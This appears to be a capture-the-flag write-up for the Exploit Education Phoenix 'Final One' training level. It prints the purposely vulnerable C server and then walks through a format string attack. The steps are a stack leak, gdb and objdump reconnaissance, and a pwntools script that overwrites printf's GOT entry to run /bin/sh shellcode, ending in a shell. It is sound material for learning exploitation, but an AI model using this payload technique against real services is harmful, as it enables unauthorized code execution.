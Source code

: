 ```yaml
---
title: " Exploit Education | Phoenix | Final One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <arpa/inet.h>
#include <err.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <syslog.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char username[128];
char hostname[64];
FILE *output;

void logit(char *pw) {
  char buf[2048];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n",
      hostname, username, pw);

  fprintf(output, buf);
}

void trim(char *str) {
  char *q;

  q = strchr(str, '\r');
  if (q) *q = 0;
  q = strchr(str, '\n');
  if (q) *q = 0;
}

void parser() {
  char line[128];

  printf("[final1] $ ");

  while (fgets(line, sizeof(line) - 1, stdin)) {
    trim(line);
    if (strncmp(line, "username ", 9) == 0) {
      strcpy(username, line + 9);
    } else if (strncmp(line, "login ", 6) == 0) {
      if (username[0] == 0) {
        printf("invalid protocol\n");
      } else {
        logit(line + 6);
        printf("login failed\n");
      }
    }
    printf("[final1] $ ");
  }
}

int testing;

void getipport() {
  socklen_t l;
  struct sockaddr_in sin;

  if (testing) {
    strcpy(hostname, "testing:12121");
    return;
  }

  l = sizeof(struct sockaddr_in);
  if (getpeername(0, (void *)&sin, &l) == -1) {
    err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp) {
  if (argc >= 2) {
    testing = !strcmp(argv[1], "--test");
    output = stderr;
  } else {
    output = fopen("/dev/null", "w");
    if (!output) {
      err(1, "fopen(/dev/null)");
    }
  }

  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  printf("%s\n", BANNER);

  getipport();
  parser();

  return 0;
}
```

If you take a quick look at the code you can spot the format string bug in **logit** function, let's trace back to find where it's called.

It's called in **parser** function, this function takes two kinds of input (username followed by a string OR login).

username STRING stores the string in **line** and login calls **logit** function with that string as argument.

The bug here is that **snprintf** copies the string argument to **buf** then **fprintf** prints this string without using **%s**, hence the bug.

```
$ /opt/phoenix/i486/final-one --test
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $ username AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
[final1] $ login 
Login from testing:12121 as [AAAA0.0.69676f4c.7266206e.74206d6f.69747365.313a676e.31323132.20736120.4141415b.2e782541.252e7825.78252e78.2e78252e.252e7825] with password []
login failed
```

We can see that **AAA** appears at 9th place with **5b** as first byte so we will use **AAA** as offset then we enter the address we want to write to, but first we choose a good address.

The best choice if to overwrite a **GOT** entry, here we will overwrite the address of **printf**.

So we need to know the address of the buffer that will contain the shellcode. Open two terminals (you can use tmux or screen): 

```
# First Terminal
$ nc localhost 64014
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $
```

```
# Second Terminal

$ ps aux | grep final
phoenix+  1114  0.0  0.0    736     8 ?        Ss   12:17   0:00 /opt/phoenix/i486/final-one
user      1134  0.0  0.0   5136   984 pts/3    S+   12:18   0:00 grep final

$ sudo gdb -p 1114
Attaching to process 1114
Reading symbols from target:/opt/phoenix/i486/final-one...(no debugging symbols found)...done.

gef➤  disassemble logit
Dump of assembler code for function logit:
.....
   0x08048827 <+66>:    call   0x80485a0 <fprintf@plt>
   0x0804882c <+71>:    add    esp,0x10
.....

gef➤  b *0x0804882c
Breakpoint 1 at 0x804882c

gef➤  c
Continuing.
```

```
# First Terminal

[final1] $ username AAAAA
[final1] $ login
```

```
# Second Terminal

gef➤  x/16xw $ebp-0x808
0xffffd490:     0x69676f4c      0x7266206e      0x31206d6f      0x302e3732
0xffffd4a0:     0x312e302e      0x3134333a      0x61203234      0x415b2073
0xffffd4b0:     0x41414141      0x6977205d      0x70206874      0x77737361
0xffffd4c0:     0x2064726f      0x000a5d5b      0x00000000      0x00000000
```

We can see that our input appears at **0xffffd4b0** with just one byte offset before (so we need just one byte offset instead of three).

```
$ objdump -R /opt/phoenix/i486/final-one | grep printf
08049e48 R_386_JUMP_SLOT   printf
```

**printf** is at **08049e48**, now we are ready to write the exploit.

# Solution:

```python
# solve.py

from pwn import *

printf = 0x08049e48
buffer = 0xffffd4c0
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

buff = ""
buff += 'username A'		# A is just an offset

buff += p32(printf+0)
buff += 'AAAA'			# JUNK that will be popped with second %x
buff += p32(printf+1)
buff += 'AAAA'			# JUNK that will be popped with third %x
buff += p32(printf+2)
buff += 'AAAA'			# JUNK that will be popped with forth %x
buff += p32(printf+3)

buff += shellcode

buff += '%x' * 9
buff += '%45x %n'		# first byte 0xc8
buff += '%19x %n'		# second byte 0xd4
buff += '%42x %n'		# third byte 0xff
buff += '%255x %n \n'		# forth byte 0xff
buff += 'login \n'

p = remote('localhost', 64014)
print(p.recvline())

p.send(buff)
p.interactive()
```

Notice that we used **AAAA** between addresses because we use **%nx** instead of normal characters which will pop an a value from the stack.

```
$ python x.py
[+] Opening connection to localhost on port 64014: Done
Welcome to phoenix/final-one, brought to you by https://exploit.education

[*] Switching to interactive mode
[final1] $ [final1] $ login failed

$ whoami
phoenix-i386-final-one
```
